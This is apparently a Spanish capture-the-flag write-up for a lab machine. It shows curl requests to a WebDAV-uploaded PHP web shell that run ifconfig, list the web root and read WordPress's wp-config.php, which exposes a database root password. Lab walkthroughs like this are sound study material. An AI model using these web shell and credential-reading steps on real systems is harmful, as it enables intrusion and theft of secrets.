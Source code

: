 # Shell como cobb
Una vez hecho todo esto encontramos que la ip es diferente de la ip de la maquian por lo que podemos suponer que estamos en un contenedor.
```bash
curl http://webdav_tester:babygurl69@10.129.192.85/webdav_test_inception/shells.php\?cmd\=ifconfig
eth0      Link encap:Ethernet  HWaddr 00:16:3e:28:53:63  
          inet addr:192.168.0.10  Bcast:192.168.0.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe28:5363/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:469790 errors:0 dropped:0 overruns:0 frame:0
          TX packets:466411 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:82038647 (82.0 MB)  TX bytes:234176817 (234.1 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:5883 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5883 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:468657 (468.6 KB)  TX bytes:468657 (468.6 KB)
``` 
No logramos encontrar mucho como www-data, pero en la ruta /var/www/html podemos encontrar una ruta que no teniamos antes.
```bash
curl http://webdav_tester:babygurl69@10.129.192.85/webdav_test_inception/shells.php\?cmd\=ls%20-la%20/var/www/html 
total 8052
drwxr-xr-x 7 root     root        4096 Aug 10  2022 .
drwxr-xr-x 3 root     root        4096 Aug 10  2022 ..
-rw-r--r-- 1 root     root       17128 May  7  2017 LICENSE.txt
-rw-r--r-- 1 root     root        2307 May  7  2017 README.txt
drwxr-xr-x 6 root     root        4096 Aug 10  2022 assets
drwxrwxr-x 4 root     root        4096 Aug 10  2022 dompdf
drwxr-xr-x 2 root     root        4096 Aug 10  2022 images
-rw-r--r-- 1 root     root        2877 Nov  6  2017 index.html
-rw-r--r-- 1 root     root     8184961 Oct 31  2017 latest.tar.gz
drwxr-xr-x 3 www-data www-data    4096 May  5 19:59 webdav_test_inception
drwxr-xr-x 5 root     root        4096 Aug 10  2022 wordpress_4.8.3
```
Al parecer tenemos un wordpress en la maquina.
```bash
curl http://webdav_tester:babygurl69@10.129.192.85/webdav_test_inception/shells.php\?cmd\=cat%20/var/www/html/wordpress_4.8.3/wp-config.php
.
.
.
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'VwPddNh7xMZyDQoByQL4');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');
```